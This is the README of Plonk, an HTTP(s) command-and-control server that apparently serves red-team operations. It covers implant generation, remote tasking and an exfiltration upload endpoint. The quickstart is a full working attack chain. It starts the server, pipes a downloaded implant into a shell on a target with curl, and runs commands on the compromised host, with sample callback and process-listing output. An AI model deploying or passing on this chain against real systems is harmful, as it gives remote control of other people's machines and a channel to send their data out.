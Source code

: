Plonk
=====
Plonk is a no-frills HTTP(s)-based C2 server, intended to be very easy to set
up and use but also powerful enough for real, if simple, ops.

### Features
1. Very simple [protocol](./doc/protocol.md) which handles...
   1. [Tasking](./doc/protocol.md#tasking-t)
   2. [Task Output](./doc/protocol.md#output-o)
   3. [Exfil Upload](./doc/protocol.md#exfil-p)
   4. [Implant Generation](./doc/protocol.md#implant-generation-c)
   5. [Static File Serving](./doc/protocol.md#static-files-f)
2. Fairly simple [setup](#singleplayer-quickstart) and [configuration](./doc/config.md)
3. Multiplayer-friendly, with reasonably simple
   [setup](./doc/multiplayer.md)
4. [TLS](./doc/tls.md) by default, with [Let's Encrypt](https://letsencrypt.org)
   or a self-signed certificate.  Or both.
5. More than zero [documentation](./doc)

Singleplayer Quickstart
-----------------------
```sh
# Install Plonk itself.  This can be done on another host, so long as plonk
# is in PATH on the server or the rest of this section is adjusted accordingly.
go install github.com/magisterquis/plonk@latest

# Start it going
nohup plonk -server -https 0.0.0.0:4433 >/dev/null 2>&1 &
# Or get rid of -https and add -letsencrypt for better TLS if a domain name is
# pointed at Plonk.

# Did it work?
ls "$HOME/plonk.d/"                 # Populated directory exists?
# Should see:
#     files  log.json  op.sock  state.json
tail "$HOME/plonk.d/log.json"       # Log looks ok?  tail -f is also neat.
# Log will tell you everything's happy:
#    {"time":"2023-12-29T22:45:27.206057004Z","level":"INFO","msg":"Server ready","dirname":"/home/h4x/plonk.d"}
curl -svk https://127.0.0.1:4433/c  # Implant generation works?
# Should see a shell script with a couple of curl -k -pinnedpubkey "sha256//..." lines

# Get a callback
curl -sk https://<plonk>:4433/c | sh  # On target and with a better URL, of course.  
                                      # Don't use -k if Plonk was started with -letsencrypt
tail -n2 "$HOME/plonk.d/log.json"     # Get the callback?  May need more -n.
# Log should say an implant was generated and something called back, like:
#    {"time":"2023-12-29T22:52:02.235811943Z","level":"INFO","msg":"Implant generation","parameters":{"PubkeyFP":"1oOI5fF7U7bLSVythHfk0COUNvymV0aoWfTT1puBfIk=","RandN":"57i","URL":"https://[REDACTED]:4433"},"sni":"","host":"[REDACTED]:4433","method":"GET","remote_address":"[REDACTED]:32260","url":"/c"}
#    {"time":"2023-12-29T22:52:02.280309985Z","level":"INFO","msg":"New implant","id":"57i-target.my.domain-9924"}

# Interact with the target
plonk  # Connect to the server as an operator
# A nice welcome message should appear
#     ___________________________
#    /     Welcome to Plonk!     \
#    \ Try ,help to get started. /
#     ---------------------------
#            \   ^__^
#             \  (oo)\_______
#                (__)\       )\/\
#                    ||----w |
#                    ||     ||
#    2023/12/29 22:53:26 [OPERATOR] Connected: h4x0r (cnum:1)
#    (plonk)>
,list  # See what's called back
# Should be the same ID as in the log output from above:
#    ID                         From        Last Seen
#    --                         ----        ---------
#    57i-target.my.domain-9924  [REDACTED]  2023-12-29T22:54:42Z (4.939s)
,seti 57i-target.my.domain-9924 # Interact with our target, but with the right ID
# Timestamps are handy to work out what happens and when, turns out.
#    2023/12/29 22:58:37 Interacting with 57i-target.my.domain-9924
#    2023/12/29 22:58:37 Use ,logs to return to watching Plonk's logs
ps awwwfux  # Run a command on target
# Plonk is HTTP-based; we get notified when the task is queued, send, and run
#    2023/12/29 22:58:42 [TASKQ] Task queued by h4x0r for 57i-target.my.domain-9924 (qlen 1)
#    ps awwwfux
#    2023/12/29 22:58:43 [CALLBACK] Sent task to 57i-target.my.domain-9924 (qlen 0):
#    ps awwwfux
#    2023/12/29 22:58:43 [OUTPUT] From 57i-target.my.domain-9924
#    USER       PID %CPU %MEM   VSZ   RSS TT  STAT   STARTED       TIME COMMAND
#    root         1  0.0  0.0   948   104 ??  I      Sat01AM    0:01.01 /sbin/init
#    root     30130  0.0  0.0  1112    24 ??  Ip     Sat01AM    0:00.00 - /sbin/slaacd
#    _slaacd  83001  0.0  0.0  1108    24 ??  Ip     Sat01AM    0:00.00 |-- slaacd: engine (slaacd)
#    _slaacd  55365  0.0  0.0  1128    24 ??  IpU    Sat01AM    0:00.00 `-- slaacd: frontend (slaacd)
#    ...
```

Directory
---------
Plonk's directory (settable with `-dir` at runtime or
[baked-inable](./doc/config.md#compile-time-settable-defaults) with
`-ldflags "-X main.DefaultDir"` at compile time) is where it keeps all of the
files it needs, i.e.:

File/Subdirectory | Description
------------------|------------
`exfil/`          | Exfil sent to [`/p`](./protocol.md#exfil-p)
`files/`          | Static files, accessible via [`/f`](./doc/protocol.md#static-files-f)
`implant.tmpl`    | Optional [implant template](./doc/protocol.md#implant-generation-c)
`index.html`      | Optional default [response body](./doc/config.md#indexhtml)
`log.json`        | Server logs
`op.sock`         | Operator Unix socket, used by Plonk the client
`sate.json`       | Server's persistent state
